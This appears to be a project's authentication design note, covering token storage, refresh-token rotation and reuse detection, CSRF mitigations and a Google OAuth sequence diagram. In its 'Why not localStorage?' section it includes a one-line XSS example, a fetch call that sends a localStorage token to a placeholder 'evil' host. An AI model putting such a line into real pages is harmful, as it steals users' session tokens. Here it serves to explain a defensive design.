

# Auth: token model, flows and "Why not localStorage?" (10.1)

## Where each token lives

| Token | Lifetime | Home | Who can read it | Sent how |
| --- | --- | --- | --- | --- |
| Access token (JWT `{sub, role, iat, exp}`) | 15 min | a module variable in `features/auth/session.ts` (memory only) | any script on the page (it is in the JS heap), nobody else; gone on reload | `Authorization: Bearer` on `auth: true` calls |
| Refresh token (random 48 bytes, only its sha256 is stored server side) | 30 days, rotated on every use | `HttpOnly; SameSite=Lax; Path=/api/v1/auth` cookie (`Secure` in production) | the browser only: `document.cookie` does not show it | automatically, only to `/api/v1/auth/*`, because every call uses `credentials: "include"` |

## Sequence: register -> login -> call -> expiry -> refresh -> rotation -> logout -> reuse



Page reload: memory is empty, so the SPA calls `POST /auth/refresh` once (the response carries the user, so there is no separate `/me`), and shows a skeleton until it answers.

## Rotation and reuse detection (what they protect against)

A refresh token is single use. If it is stolen (disk, proxy log, malware) and used by the thief, the legitimate client's next refresh presents the already-used token (or the reverse), the server sees a used token come back and kills the whole family. A stolen token is therefore good for at most one use, and the theft becomes visible as a forced logout. The cost: a client that fires two refreshes with the same cookie logs itself out, which is why refresh is single-flight (in the tab by a shared promise, across tabs by a Web Lock).

## Why not localStorage?

`localStorage` is readable by every script that runs on the origin: our own, every npm dependency, and any script an XSS bug injects. One `fetch("https://evil/?t=" + localStorage.token)` and the attacker has a token that works from their own machine, for as long as it is valid, with no trace on the victim's side. It also survives tab close and is shared by all tabs. A memory variable is not reachable through a storage API, so an injected script has to be running at the moment the page is open to use it. The refresh token is even safer in an `HttpOnly` cookie: script cannot read it at all.

What this does NOT fix: XSS can still make requests as the user while the page is open (the app's own code attaches the token), and an XSS script can call `/auth/refresh` itself (the cookie rides along). The real defence is not letting XSS in (10.9). Cookies bring CSRF into the picture: mitigated by `SameSite=Lax`, by the cookie being scoped to `/auth` only, and by the refresh endpoint being POST-only and reading no parameters; API calls do not use the cookie at all (they need the Bearer header, which a cross-site form cannot set).

Verified in the browser (DevTools > Application > Cookies, and curl): the refresh cookie is `HttpOnly`, `SameSite=Lax`, `Path=/api/v1/auth`; `document.cookie` returned `""`; `localStorage` only holds the hint `shopsphere.hasSession=true` (a boolean "ask the API whether a session exists"), no token; the payload decodes with `JSON.parse(atob(token.split(".")[1]))` to `{sub, role, iat, exp}`.

## Google sign-in (10.6), who holds what

```mermaid
sequenceDiagram
  participant B as Browser
  participant A as API
  participant G as Google
  B->>A: GET /auth/google?redirect=/orders (navigation)
  A-->>B: 302 to Google + Set-Cookie oauthState (httpOnly, 10 min)
  B->>G: user signs in and consents
  G-->>B: 302 to API /auth/google/callback?code=...&state=...
  B->>A: GET callback (browser sends the oauthState cookie)
  Note over A: state must equal the cookie; code + CLIENT SECRET go to Google server to server
  A->>G: POST token endpoint (code, client_id, client_secret)
  G-->>A: id_token (email, email_verified, sub)
  A-->>B: 302 SPA /auth/google/callback?redirect=/orders + Set-Cookie refreshToken
  B->>A: POST /auth/refresh (same as every reload)
  A-->>B: {user, accessToken}
```

The client secret exists only on the API. The SPA never sees a Google token. The `state` binds the callback to the browser that started the flow (CSRF).
